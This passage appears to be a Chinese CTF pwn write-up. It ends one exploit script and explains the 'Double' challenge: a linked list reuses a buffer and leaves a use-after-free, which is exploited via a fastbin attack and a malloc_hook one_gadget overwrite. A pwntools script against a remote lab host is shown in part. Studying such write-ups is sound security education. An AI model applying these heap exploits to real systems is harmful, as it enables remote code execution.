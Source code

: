 ```
p.recvuntil('Your choice:')
p.sendline('2')
p.recvuntil('Please enter the length of daily:')
p.sendline('1')

print hex(libc_base)
print hex(heap_base)


p.interactive()

```



### Double



看了恒哥逆的ida，加上自己理解了一些，程序就变得很简洁明了了。

大体是一个单向链表，当加入数据与链表头相同时，会偷懒不新建，直接沿用链表头malloc的数据，但是重新赋予序号。不妨设有这样两个相同，序号分别为AB。这就导致删除序号A后，对B修改可以直接修改堆，也可以再删除，存在uaf

泄露地址就用删除掉的A，打印B即可。

利用fastbin attack可以很快速的getshell。

然后直接把malloc_hook改成one_gadget就可以了。

如果想用realloc_hook怕strncpy截断，就用edit函数里面的memcpy来解决。

```python
from pwn import *

debug = 0
if debug:
	p = process('./double')
else:
	p = remote('e095ff54e419a6e01532dee4ba86fa9c.kr-lab.com',40002)

e = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
context(log_level = 'debug')

def add(msg):
	p.recvuntil('>')
	p.sendline('1')
	p.recvuntil('data:')
	p.send(msg)

def show(idx):
	p.recvuntil('>')
	p.sendline('2')
	p.recvuntil('index: ')
	p.sendline(str(idx))

def edit(idx, msg):
	p.recvuntil('>')
	p.sendline('3')
	p.recvuntil('index:')
	p.sendline(str(idx))
	sleep(0.01)
	p.send(msg)

def delete(idx):
	p.recvuntil('>')
	p.sendline('4')
	p.recvuntil('index:')
```